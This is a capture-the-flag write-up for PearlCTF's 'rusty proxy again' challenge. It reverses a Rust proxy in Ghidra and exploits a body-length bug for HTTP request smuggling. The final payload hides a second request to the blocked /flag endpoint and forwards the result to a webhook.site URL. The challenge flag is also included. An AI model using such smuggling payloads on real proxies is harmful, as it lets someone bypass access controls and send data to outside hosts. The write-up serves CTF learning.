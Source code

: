 # rusty proxy again
## Solution
We are provided with a binary which acts as the proxy.

Opening the binary in ghidra and seeing the main function

![main function](imgs/main_fn.png)

We can see the main function, following the function we get that a closure is called in a thread.

![closure function](imgs/closure_fn.png)

we find the references of this closure, we get to a function where we find handle connection function

![refernce](imgs/reference.png)
![handle function](imgs/handle_fn.png)

following the function, we find parse function

![parse](imgs/parse_fn.png)

now we analyse the function and find out that the request is splitted with `\r\n`

![split](imgs/split.png)

so if the body also had a `\r\n`, it will be splitted.

The bug was that the body length was calculated by incrementing the index by one after setting the headers.

```
Header 1\r\n
Header 2\r\n
\r\n
foo=bar\r\n
REQ 2
```

so the content length will be the length of `foo=bar` only, and the function sends the headers first and entire body one after the other.

Also to make the player reverse the binary, we added a custom header which is verified in the proxy `ctf: PearlCTF`

![header](imgs/custom_header.png)

the `/flag` request is blocked in the proxy, so we needed to smuggle it.

Hence the final payload will be

```
POST /show HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 206
Content-Type: application/x-www-form-urlencoded
ctf: PearlCTF

name=begulaaa
POST /flag HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 64
Content-Type: application/x-www-form-urlencoded

to_req=https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c
```

![flag](imgs/flag.png)

## Flag
`pearl{I_sh0uld_h4v3_t3sted_mY_pR0xY}`